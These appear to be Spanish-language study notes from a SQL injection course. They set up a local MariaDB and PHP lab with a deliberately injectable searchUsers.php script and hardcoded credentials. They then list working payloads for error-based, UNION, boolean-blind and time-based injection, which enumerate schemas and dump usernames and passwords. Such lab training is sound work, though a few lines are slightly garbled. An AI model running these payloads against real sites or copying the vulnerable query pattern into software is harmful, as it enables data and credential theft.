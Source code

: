 Instalamos
	apt install mariadb-server apache2 php-mysql

	service mysql start
	service apache2 start
	mysql -uroot -p 

	show databases;
	use mysql;
	show tables;
	para ver columnas --> describe user;

Todo funciona mediante querys
Por ejemplo:
Inicio sesion pero en vez de poner contraseña ingreso codigo para alterar la query

	select user,password from user;
	(selecciono la fila user y password desde la tabla user)


Si quiero realizar una busqueda mas especifica de usuario o contraseña puedo usar el siguiente comando

	select user,password from user where user = 'root';

o

	select user,password from user where password = 'xxxx'


Para crear una DB

	create database Hack4u;

Creamos la tabla:
	**create table users(id int(32), username varchar(32), password varchar(32));**

	Para ver la tabla creada:
	describe users;

Para insertar los usuario y contraseñas:

	insert into users(id, username, password) values(1, 'admin', 'root');

Para actualizar algun usuario o contraseña existente:
	update users set id=2 where username='ken';

	(update users set) --> users es la columna
	-> el comando es 'update ___ set'

Ahora si queremos ver/listar las columnas username que acabamos de crear

	select username from users;
Si queremos listar todas las columnas y filas de users
	select * from users;
	

Para crear un usuario especial y se pueda conectar a la base de datos:
	`create user 'ken'@'localhost'  identified by 'ken123'`
		Lo que se esta haciendo es crear el usuario ken en localhost con la contraseña ken123

Para darle privilegios al usuario que se acaba de crear 
`grant all privileges on Hack4u.* to 'ken'@'localhost';`
		esto hace que tenga acceso a la base de datos Hack4u a todas las rutas *
		


se creo un script en /var/ww/html llamado searchUsers.php

`?php`
  `$server = "localhost";`
  `$username = "ken";`
  `$password = "ken123";`
  `$database = "Hack4u";`

  `$conn = new mysqli($server, $username, $password, $database);`
  `$id = $_GET['id'];`

  `$data = mysqli_query($conn, "select username from users where id = '$id'") or>`
  `$response = mysqli_fetch_array($data);`
  `echo $response['username'];`

`?>`

Esto enlaza la conexion de maria db a php
ademas aqui se puede hacer injeccion sql error based ya que al poner una comilla en ?id=1'
da error


para listar las columnas en MariaDB se puede utilizar el siguiente codigo:
```
select username,password from users where id= '1' order by 2;-- -';

```

para hacerlo desde el mismo navegador:
?id=`select username from users where id= '1' order by 1-- -

![[Pasted image 20250314165156.png]]


Para inyectar texto se puede hacer:
`select username from users where id = '1' union select "cualquier texto";-- -';`

![[Pasted image 20250314165502.png]]
Es importante saber el numero de columnas para poder inyectar codigo ya que si no no hacen match
en este caso se puso username,password "texto1","texto2"


Desde la web para saber el nombre de la base de datos:
id=99999' union select database()-- -
![[Pasted image 20250318111621.png]]

Para saber el nombre de todas las bases de datos:
id=9999' union select schema_name from information_schema.schemata-- -
![[Pasted image 20250318111939.png]]

OJO PIROJO:
No siempre te muestra todas las bases

Se puede limitar el output de la siguiente manera:
id=9999' union select schema_name from information_schema.schemata limit 1,1-- -

Para representar todas se puede hacer de la siguiente manera(representa todas las db, separadas mediante comas)
id=8881' union select group_concat(schema_name) from information_schema.schemata-- -
![[Pasted image 20250318112812.png]]

Ahora si quiero saber en la db Hack4u que tablas hay:
id=8881' union select group_concat(table_name) from information_schema.tables where table_schema='Hack4u'-- -

![[Pasted image 20250318114517.png]]

Practicamente lo mismo para la tabla users
id=8881' union select group_concat(column_name) from information_schema.columns where table_schema='Hack4u' and table_name='users'-- -

![[Pasted image 20250318114725.png]]

ya sabiendo las tablas, ahora nos interesa el contenido de la columna password para ello solo hacemos:
id=99999' union select group_concat(password) from users-- -

y para ver usuario y contraseña usamos:
id=99999' union select group_concat(username,':',password) from users-- -
![[Pasted image 20250318115724.png]]

Si llegara a entrar en conflicto las comillas se puede usar los ':' en hexadecimal
en Linux ---> MAN ASCII
se reemplaza ':' por 0x3a

EN CASO DE QUE NO SE MUESTREN LOS ERRORES SE PUEDE UTILIZAR EL SIGUIENTE CODIGO
id=1' order by 100 hasta llegar a las tablas correspondientes
id=1' order by 1,1 o 1,2--> esto aplica si en la configuracion php esta username, password, mas adelante se susituye por database() para saber la base de datos que tenemos 

De manera similar al inicio para saber en que base de datos estamos se puede utilizar :
id=1' union select database(),2-- -

Otra manera de saber que la web es vulnerable a injeccion sql es de la siguiente manera :
Esto hace que la web tarde 5 seg en responder
Si utilizas id=1' and sleep(5)-- -


Si no se realiza una correcta sanitizacion en la linea 12
id debe de ir con comilla es decir '$id'
![[Pasted image 20250318162502.png]]


SANITIZACION QUE EVITA QUE SE PUEDA JUGAR CON COMILLAS
![[Pasted image 20250320233607.png]]



BOOLEAN BASED BLIND SQL INJECTION

select  substring(username,1,1) from users where id = 1;
lo que hace esto es devolverte la primera letra del username
en este caso tenemos admin y saldra   'a'

Para burlar la parte de la comilla lo que se puede hacer es poner en modo ascii es decir
select ascii substring(username,1,1) from users where id = 1;


Aqui lo que hacemos es convertir la letra 'a' a ascii y da 97
despues lo que hacemos es un select del select y lo igualamos a 97 por lo tanto dara 1 de que es correcto
Si es incorrecto dara 0
![[Pasted image 20250320234319.png]]

Si es incorrecto dara cero:
![[Pasted image 20250320234347.png]]


Nos copiamos la sentencia
select(select ascii (substring(username,1,1)) from users where id = 1)=98;

abrimos terminal 
copiamos y hacemos un curl
![[Pasted image 20250320234652.png]]

lo que indicamos es que si id=2 de codigo de estado exitoso si coincide 
En la imagen se muestra si es incorrecto el valor
y en la ultima se agreg or 1=1
lo que hace que si id no es igual a 9 pruebe con 1=1



SQL INJECTION BASADA EN TIEMPO
lo que se hace es ?id= select  * from users where id = 1 and sleep(5);
Lo que hace es que tarda en responder 5 seg y te despliega lo de users

Si hacemos:
select * from users where id = 1 and of (substr(database(),1,1)='a',sleep(5),1);

Esto hace que si la letra a de users es correcta que tarde 5 segundos en responder
PERO DEBIDO A LA SANITIZACION Y NO PERMITE EL USO DE COMILLAS OSEA LAS ESCAPA TIENES QUE UTILIZARLO EN ASCII ES DECIR

select * from users where id = 1 and if(ascii(substr(database(),1,1))=104,sleep(5),1);

esto hace que pruebe con la letra H de ascii osea 104 y te arroja resultado, es una manera sencilla de evitar la sanitizacion de las comillas



